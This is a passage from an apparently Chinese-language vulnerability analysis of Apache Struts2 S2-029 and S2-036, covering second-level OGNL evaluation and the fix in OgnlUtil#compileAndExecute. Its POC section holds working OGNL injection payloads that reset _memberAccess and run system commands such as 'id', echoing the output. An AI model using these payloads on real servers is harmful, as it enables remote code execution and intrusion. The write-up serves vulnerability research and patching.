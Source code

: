 ![image-20200519144603429](/images/talk_about_struts2/image-20200519144603429.png)

此时再传入到`findValue`就是第二层的OGNL表达式，后续跟S2-001一样，只需要执行一次OGNL表达式计算即可

### POC

```java
// 需要先初始化SecurityMemberAccess，不然无法执行
?message=((%23_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(@java.lang.Runtime@getRuntime().exec('open+/System/Applications/Calculator.app')))
// 回显POC
?message=(%23_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23ret=@java.lang.Runtime@getRuntime().exec('id')),%23q=@org.apache.commons.io.IOUtils@toString(%23ret.getInputStream())
 // S2-036
 ((#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ret=@java.lang.Runtime@getRuntime().exec('id'))).(#q=@org.apache.commons.io.IOUtils@toString(#ret.getInputStream()))
```

### 修复S2-029

`com.opensymphony.xwork2.ognl.OgnlUtil#compileAndExecute`

![image-20200519152941105](/images/talk_about_struts2/image-20200519152941105.png)

在计算表达式之前，验证是否可以执行

![image-20200519153530702](/images/talk_about_struts2/image-20200519153530702.png)
